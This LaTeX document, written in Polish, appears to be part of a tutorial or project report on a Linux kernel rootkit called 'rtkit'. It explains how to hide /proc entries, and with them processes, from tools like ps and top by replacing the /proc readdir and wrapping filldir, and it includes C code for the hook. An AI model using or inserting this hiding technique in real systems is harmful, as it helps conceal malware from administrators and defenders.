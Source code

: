 \documentclass[a4paper]{article}
\begin{document}
\subsection{Ukrycie wpisów w \texttt{/proc}}
\subsubsection{Użyteczność}
Ukrywanie plików w \texttt{/proc} może posłużyć do ukrycia wpisu stworzonego
przez nas jak i ukrycia procesów w systemie. Programy pokroju \texttt{ps} i
\texttt{top} listują katalogi w \texttt{/proc} reprezentujące procesy. Ukrycie
tych katalogów skutkuje ukryciem procesów.

\subsubsection{Wyciągnięcie \texttt{file\_operations}}
Zmian tych można dokonać poprzez zastąpienie używanej funkcji
\texttt{readdir}, która zamienia funkcję \texttt{filldir} przekazywaną do
oryginału. Wskaźnik do funkcji \texttt{readdir} znajduje się w strukturze
\texttt{file\_operations}. Interesuje nas struktura dla \texttt{/proc}.
Wskaźnik na \texttt{file\_operations} można znaleść w strukturze
\texttt{proc\_dir\_entry}. Nasz nowo utworzony plik w \texttt{/proc} zawiera
wskaźnik na rodzica - w tym wypadku sam \texttt{/proc}. Pole
\texttt{proc\_fops} zawiera interesującą nas strukturę.

|proc_rtkit->parent->proc_fops|

\subsubsection{Własne \texttt{readdir} i \texttt{filldir}}
Własna wersja \texttt{readdir} ma za zadanie jedynie opakować oryginalne
\texttt{filldir} w naszą własną wersję. Uzywamy do tego globalnej statycznej
zmiennej. \texttt{filldir} natomiast ma zwracać 0 jeśli chemy ukryć wpis lub
też wywoływać oryginał. Pozwolimy pominąć sobie opis prototypów funkcji i
przejść do implementacji:
\begin{verbatim}
int proc_readdir_new(struct file *filp, void *dirent, filldir_t filldir) {
	proc_filldir_orig = filldir; //some static variable
	return proc_readdir_orig(filp, dirent, proc_filldir_new);
}

int proc_filldir_new(void *buf, const char *name, int namelen, loff_t offset,
u64 ino, unsigned d_type) {
	if (!strcmp(name, "rtkit")) return 0;
	return proc_filldir_orig(buf, name, namelen, offset, ino, d_type);
}
\end{verbatim}
Użycie globalnej zmiennej nie powoduje kłopotów w razie przypadkowego
wywłaszczenia. \texttt{filldir} jest zawsze takie samo, nie ma niestety innego
sposobu na jego wyciągniecie niż zrobieni tego w ciele \texttt{readdir}.
\end{document}
